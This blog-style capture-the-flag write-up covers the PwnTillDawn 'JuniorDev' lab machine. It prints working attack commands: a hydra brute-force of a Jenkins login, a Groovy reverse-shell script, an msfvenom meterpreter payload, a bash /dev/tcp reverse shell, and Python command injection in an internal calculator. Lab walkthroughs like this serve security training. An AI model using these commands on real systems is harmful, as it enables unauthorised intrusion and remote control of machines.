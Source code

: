 ```yaml
---
title: JuniorDev Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-27 11:33:00 +0800
categories: [Blogging, PwnTillDawn]
tags: [writeups, jenkins, portfwd, python, hydra]
math: true
mermaid: true
image:
  src: ![image](https://user-images.githubusercontent.com/67085453/143765869-f4b70e8d-17d3-4e92-9311-e28dd167b4c9.png)
  width: 800
  height: 500
---
```


![image](https://user-images.githubusercontent.com/67085453/143765891-34e88ab8-1881-47a1-90de-e588c3eea925.png)<br>

**> Information Gathering**<br>
Started with the usual nmap scan and from the scan we can see active ports. port 22 (ssh) & port 30609 (jetty 9.4.27).<br>
![image](https://user-images.githubusercontent.com/67085453/143765662-e120b52a-a05e-4665-b2a1-55e4dacfe4d9.png)

<br>
Upon visiting the web service running on port _30609_, i found a login screen.<br>
![image](https://user-images.githubusercontent.com/67085453/143765631-f7e788fc-8e83-4b1c-a97b-a639e13632de.png)<br>


Since we don’t have any credentials, the best option is to *bruteforce* the target web login. Below is the hydra command used<br>
`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.150.150.38 -s 30609 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"`<br>
![image](https://user-images.githubusercontent.com/67085453/143765717-ed681b4b-3abe-43cb-b3c7-609f419e7275.png)<br>

Hydra yield positive results. We have found the password for the admin user. The next step is to login on jetty webapp running on port 30609. *username == admin* & *password == matrix*<br>
![image](https://user-images.githubusercontent.com/67085453/143765743-22635b7b-a430-4f4a-889a-454bde37f372.png)<br>
     

The credentials worked we are logged in now.<br>
![image](https://user-images.githubusercontent.com/67085453/143765751-202149be-2d13-4ce7-b865-b7b839156884.png)<br>

After a short googling on how to abuse jenkins script console to rce we found a good post from <a href="https://github.com/gquere/pwn_jenkins">gquere</a>. With this information, we were able to build a script to test remote code execution on the target. <br>
![image](https://user-images.githubusercontent.com/67085453/143765761-0e7da699-8773-49fa-8df6-e511967f33a7.png)<br>


Now  that we can execute commands on the target, it’s time to spawn a reverse shell. Below is the script I used.
```shell
String host="10.66.67.114";  
int port=9001;  
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
<br>
![image](https://user-images.githubusercontent.com/67085453/143765793-ff14889e-8cdb-4b2b-b144-003ab641c429.png) <br>


**> Post Exploitation**<br>
After i got a shell, post enumeration phase begins. I transferred linpeas to the target, changer permissions and executed linpeas. In linpeas output, i found a port binded to the _loopback address(127.0.0.1:8080)_.<br>
![image](https://user-images.githubusercontent.com/67085453/143765907-412f03af-7170-4dc5-b840-ee0835a53718.png)<br> 

Port 8080 is mostly used for web services. To confirm, i tried `wget` on the ort since `curl` is not found on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143765930-93ced860-08cc-4b92-827d-24a5ff158593.png)<br>

Reading the fetched `index.html` from port 8080 indicates that there is a web webapp running internally.<br>
![image](https://user-images.githubusercontent.com/67085453/143765946-d1c2a430-0af0-49ab-b1fd-83f18ddc019c.png)<br>

To access this internal web service, we have to port-forward port 8080 from the target to our attacking machine. To do this, i created a linux payload using `msfvenom`. <br>
``msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.66.66.78 LPORT=9002 -f elf -o 9002msf``<br>
![image](https://user-images.githubusercontent.com/67085453/143765952-d511e7e9-e049-4a7a-9360-38e69b2548d4.png)<br>

The next thing to do is to transfer the payload to the target and execute it while msfconsole is listerning for incoming connections.<br>
![image](https://user-images.githubusercontent.com/67085453/143765957-aa29bf3e-872b-4760-b63b-ffedb1e21e22.png)<br>

When the payload is executed on the target, we should recieve a connection back on `msfconsole`. Once the connection is in, we can port-forward the target intertnal port `8080` to our attacking machine using the `portfwd` command in msfconsole<br>
`portfwd add -l 8080 -p 8080 -r 127.0.0.1`<br>
![image](https://user-images.githubusercontent.com/67085453/143765963-00518744-c295-44f9-820a-9db9a7dcfcbf.png)<br>

Now that we the target port `8080` connected back to our attacking machine, when visited, we found a python math console.<br>
![image](https://user-images.githubusercontent.com/67085453/143765968-cf05e59b-727e-4377-ac76-ba25ed07ce10.png)<br>

Since it's a simple python math calculator, we can easily bypass the python functions and gain a remote code execution. To do this, we will use `__import__("os").system("")`<br>

We created a bash file with contains our bash reverse liner. a simple bash script, transferred the bash file to the target. 
```shell
#!/bin/bash
bash -c  'bash -i>&/dev/tcp/10.66.66.78/9002 0>&1'
```
<br>

Once our bash file is on the target, we can execute the bash file using the python calculator. We simply do this using the command
`__import__("os").system("/bin/bash /tmp/shell.sh")`<br>
![image](https://user-images.githubusercontent.com/67085453/143765976-251cd43b-7e6d-4852-895b-6b2ba81033c9.png)<br><br>


Reference: <a href="https://online.pwntilldawn.com/">PwnTillDawn Online battlefield</a>
